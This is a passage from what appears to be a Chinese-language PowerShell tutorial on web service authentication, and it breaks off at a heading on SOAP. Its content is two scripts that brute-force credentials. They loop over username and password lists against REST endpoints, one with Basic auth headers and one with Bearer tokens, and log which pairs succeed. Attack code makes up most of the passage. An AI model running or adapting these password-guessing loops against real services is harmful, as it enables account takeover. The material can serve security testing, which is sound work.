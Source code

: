 ## Web 服务认证

了解 Web 服务使用的认证机制。根据认证过程调整你的 PowerShell 脚本。

### 基本认证（REST）

对于基本认证的 Web 服务，将凭证包含在 HTTP 请求头中：

```
 foreach ($username in $usernames) {
    foreach ($password in $passwords) {
        $base64Auth = [Convert]::ToBase64String([Text.Encoding]::ASCII.GetBytes(("${username}:${password}")))
        $headers = @{ Authorization = "Basic $base64Auth" }
        $response = Invoke-RestMethod -Uri "https://api.example.com/resource" -Method Get -Headers $headers
        # Check for successful login
        if ($response.Status -eq "success") {
            Write-Host "Login successful: $username:$password"
            # Perform additional actions based on a successful login
        } else {
            Write-Host "Login failed: $username:$password"
        }
    }
}
```

### 基于令牌的认证（REST）

如果 Web 服务使用基于令牌的认证，请将令牌包含在 HTTP 头部：

```
 foreach ($username in $usernames) {
    foreach ($password in $passwords) {
        # Obtain the token using the credentials
        $token = Get-AuthToken -Username $username -Password $password
        # Include the token in the request header
        $headers = @{ Authorization = "Bearer $token" }
        # Perform the REST request
        $response = Invoke-RestMethod -Uri "https://api.snowcapcyber.com/resource" -Method Get -Headers $headers
        # Check for successful login
        if ($response.Status -eq "success") {
            Write-Host "Login successful: $username:$password"
            # Perform additional actions based on a successful login
        } else {
            Write-Host "Login failed: $username:$password"
        }
    }
}
```

### 处理 SOAP 认证
